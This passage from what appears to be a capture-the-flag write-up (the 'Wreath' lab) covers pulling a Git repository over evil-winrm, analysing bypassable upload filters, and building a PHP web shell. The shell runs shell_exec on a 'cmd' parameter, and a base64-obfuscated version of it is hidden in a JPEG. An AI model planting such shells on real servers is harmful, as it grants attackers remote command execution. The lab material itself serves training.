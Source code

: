 Now we can access the http server using foxyproxy

The website seems to be a copy of the running on the webserver

The gitserver is located on `C:\GitStack\repositories\website.git`, using evil-winrm we can download it

```bash
*Evil-WinRM* PS C:\GitStack\repositories> download C:\Gitstack\Repositories\Website.git
Info: Downloading C:\Gitstack\Repositories\Website.git to .git


Info: Download successful!
```

extract the commits from .git

```bash
kali㉿kali-[~/thm/wreath]$ GitTools/Extractor/extractor.sh . Website
```

### Code analysis

By analysing the `/resources/index.php` code we found :

* Uploaded files are located underi `/resources/uploads`
* There are two file upload filters in play (size, extension)
* Both filters are bypassable

### Exploit POC

Uploading php obfuscated file to execute remote command using [PHP Obfuscator](https://www.gaijin.at/en/tools/php-obfuscato)

Obfuscating with string encoding and hexadecimal value for names

```php
<?php
    $cmd = $_GET["cmd"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

into 

```php
<?php $q0=$_GET[base64_decode('Y21k')];if(isset($q0)){echo base64_decode('PHByZT4=').shell_exec($q0).base64_decode('PC9wcmU+');}die();?>
```

We can execute command using the cmd GET param. we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen. 

We can then add comment to a jpeg image using exiftool to bypass the `size()` filter
